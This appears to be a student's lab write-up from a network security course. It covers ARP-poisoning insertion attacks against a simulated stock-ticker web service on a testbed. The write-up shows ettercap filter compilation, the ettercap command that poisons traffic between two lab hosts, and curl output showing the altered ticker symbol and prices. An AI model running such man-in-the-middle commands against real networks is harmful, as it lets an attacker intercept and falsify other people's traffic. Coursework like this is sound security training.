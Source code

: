 See above.

**2. Explain how you determined that this strategy would work.**

See above.

**3. Execute your replay attack and show the results of your attack with a screen capture, text dump, etc. showing that you are controlling the prices on the stock ticker.**

See above.

## 3. Insertion Attack

First, write your filter scripts `symbol.filter` and `price.filter`. Then compile them:

```bash
etterfilter symbol.filter -o symbol.ef
etterfilter price.filter -o price.ef
```

Now we want to perform ARP poision on `eth3` and run the filter.

```bash
ettercap -T -q -F symbol.ef -M ARP /10.1.1.2,10.1.1.3//
```

Let's check if the filter is working. Open a new tab and ssh into `alice`.

```
ssh alice.la136cr-lab4.UCLA136.isi.deterlab.net
```

Request the stock information:

```bash
$ curl http://10.1.1.3/cgi-bin/stock.cgi
...
<h1>A Real Stock Exchange</h1><hr /><h2>FrobozzCo International (OWND)</h2>
...
```

Looks like symbol filter is working as expected. Similarly, let's check if price filter would work.

```bash
ettercap -T -q -F price.ef -M ARP /10.1.1.2,10.1.1.3//
```

Request the stock information:

```bash
$ curl http://10.1.1.3/cgi-bin/stock.cgi
...
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='14' width='50'><tr><td><p align='center'>$9</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='158' width='50'><tr><td><p align='center'>$99</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='4' width='50'><tr><td><p align='center'>$9</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='10' width='50'><tr><td><p align='center'>$9</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='136' width='50'><tr><td><p align='center'>$98</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='114' width='50'><tr><td><p align='center'>$97</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='154' width='50'><tr><td><p align='center'>$97</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='122' width='50'><tr><td><p align='center'>$91</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='162' width='50'><tr><td><p align='center'>$91</p></td></tr></table></td>
<td valign='bottom'><table border='1' bgcolor='#aa0000' align='left' valign='bottom' height='138' width='50'><tr><td><p align='center'>$99</p></td></tr></table></td>
```